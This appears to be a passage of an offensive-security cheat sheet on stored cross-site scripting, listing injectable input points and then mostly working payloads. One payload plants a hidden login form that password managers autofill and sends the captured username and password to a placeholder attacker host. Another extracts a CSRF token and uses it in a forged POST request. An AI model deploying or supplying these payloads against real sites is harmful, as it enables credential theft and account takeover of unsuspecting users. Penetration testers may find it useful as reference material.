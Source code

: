 # Stored XSS
## Input Forms
-   **User/Profiles page**: the application allows the user to edit/change profile details such as first name, last name, nickname, avatar, picture, address, etc.
-   **Shopping cart**: the application allows the user to store items into the shopping cart which can then be reviewed later
-   **File Manager**: application that allows upload of files
-   **Application settings/preferences**: application that allows the user to set preferences
-   **Forum/Message board**: application that permits exchange of posts among users
-   **Blog**: if the blog application permits to users submitting comments
-   **Log**: if the application stores some users input into logs
### Steal Passwords from Password-Managers payload
```js
<script>
    function x() {
    document.getElementById('creds').innerHTML = window.location.href='http://<ATTACKERSITE>/abuqasem.php?='+document.getElementById('username').value+':'+document.getElementById('password').value;
    }

    function timer() {
        setTimeout(x, 1000);
    }
</script>
<body onload="timer()">
    <h1 id="creds"></h1>
    <form id="" method="POST" style="visibility: hidden; position: absolute; top: -1000; left: 1000;">
        Username: <input type="text" name="username" id="username" /><br />
        Password: <input type="password" name="password" id="password" /><br />
        <input type="submit" value="gö" />
    </form>
</body>
```
### Steal CSRF token then do a POST request
```js
<script>  
var req = new XMLHttpRequest();  
req.onload = handleResponse;  
req.open('get','url/path',true);  
req.send();  
function handleResponse() {  
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];  
    var changeReq = new XMLHttpRequest();  
    changeReq.open('post', 'url/path', true);  
    changeReq.send('csrf='+token+'&param=value')  
};  
</script>
```
>NOTE:  Internet Explorer handles TXT files with HTML content as HTML content
---
# Content Security Policy

